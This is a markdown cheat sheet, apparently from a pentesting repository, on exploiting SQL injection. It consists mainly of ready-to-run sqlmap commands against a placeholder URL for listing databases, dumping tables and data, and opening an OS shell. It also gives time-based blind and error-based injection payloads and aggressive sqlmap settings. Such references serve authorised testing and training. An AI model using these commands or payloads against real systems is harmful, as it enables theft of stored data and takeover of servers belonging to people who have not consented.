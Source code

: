 # 🐘 SQL Injection Exploitation

## Overview
SQL Injection exploitation involves leveraging vulnerabilities in the application's SQL queries to access or manipulate sensitive data.

## Types of Exploitation
1. **Dumping Databases**:
    ```bash
    sqlmap -u "https://example.com/page?param=value" --dbs
    ```

2. **Dumping Tables from a Specific Database**:
    ```bash
    sqlmap -u "https://example.com/page?param=value" -D database_name --tables
    ```

3. **Extracting Data from Tables**:
    ```bash
    sqlmap -u "https://example.com/page?param=value" -D database_name -T table_name --dump
    ```

4. **Gaining a Shell** (if possible):
    ```bash
    sqlmap -u "https://example.com/page?param=value" --os-shell
    ```

## Advanced Techniques
- **Time-Based Blind Injection**:
    - Use payloads like:
        ```sql
        ' OR IF(1=1,SLEEP(5),0) --
        ```
    - Observe delays to confirm injection.
  
- **Error-Based Injection**:
    - Exploit error messages to extract database details:
        ```sql
        ' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT @@version),FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a) --
        ```

## Tools for Exploitation
- **SQLmap**: Automates the entire process.
- **Burp Suite**: Use the Repeater tool to manually inject and test payloads.
- **Havij**: A GUI-based tool for SQL injection exploitation.

## Tips
- Always validate findings manually before reporting.
- Use `--level=5` and `--risk=3` in SQLmap for advanced techniques.

